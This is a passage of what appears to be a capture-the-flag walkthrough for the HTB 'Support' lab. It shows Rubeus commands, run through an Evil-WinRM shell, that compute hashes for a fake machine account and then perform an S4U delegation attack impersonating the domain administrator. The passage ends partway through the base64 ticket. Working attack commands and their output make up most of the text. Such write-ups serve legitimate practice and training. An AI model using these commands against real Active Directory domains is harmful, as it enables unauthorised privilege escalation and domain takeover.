 ## Get the TGT
There is multiple ways here to get the TGT using `Rubeus` or `impacket getST.py`, which we will see them both:

### Get the TGT using Rubeus
All we need for now is to authenticate as the new fake machine `0xW43lPC`. First, we need the `rc4_hmac` which we can get using `Rubeus`:

```bash
*Evil-WinRM* PS C:\windows\tasks> .\Rubeus.exe hash /password:0xW43lPC123! /user:0xW43lPC /domain:support.htb

 ______        _
(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.5.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : 0xW43lPC123!
[*] Input username             : 0xW43lPC
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTB0xW43lPC
[*]       rc4_hmac             : D7FAFDB6EA9FAF82DDB0C25E2B491212
[*]       aes128_cts_hmac_sha1 : 339F0C73D60F18EFD798A127A3D00EE6
[*]       aes256_cts_hmac_sha1 : 60BF5227821878D2E78CB763F4C1BD2D23D7E6201E0FC046F81DA6A06B83A42C
[*]       des_cbc_md5          : 40ADCE67E6791649

*Evil-WinRM* PS C:\windows\tasks> 
```

Once, we have the `rc4_hmac` of our machine password, we'll pass it to `Rubeus` again, but now to get a ticket for administrator
```bash
*Evil-WinRM* PS C:\windows\tasks> .\Rubeus.exe s4u /user:0xW43lPC$ /rc4:D7FAFDB6EA9FAF82DDB0C25E2B491212 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt

 ______        _
(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.5.0

[*] Action: S4U

[*] Using rc4_hmac hash: D7FAFDB6EA9FAF82DDB0C25E2B491212
[*] Building AS-REQ (w/ preauth) for: 'support.htb\0xW43lPC$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

    doIFbjCCBWqgAwIBBaEDAgEWooIEhTCCBIFhggR9MIIEeaADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
    AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBD8wggQ7oAMCARKhAwIBAqKCBC0EggQpJemqAN2w
    ZVKtAmcFfKAo00S6szsIXf3M79lMOh2JVhnZ5ZHJIQtfAd9vGbgdQ1DP2LQ0qJjZJLO+aVULp7gMoVNx
    KCr0/ku1T/HIPInlhd40whUNF13tqLEpwgfyYQ2zaKcx1W5V0oRBAH8UYqcyCSEwnEhIDXyP94mzGJ68
    HVWVl9BrKFyHTJFc0sqbhZJcDBpoIySt6dBUSM03p+Do1Rzgm2tYK49ojJwgiIpYL2zH0VCwZmXcwxnM
    b2NZG7xCrnjmbbcUmbcBoIzHSx4eIvu6A0lb2VZy9nkHxDNX2lK9AG+c5Uar2suMLZNC+x874CFpU6tp
```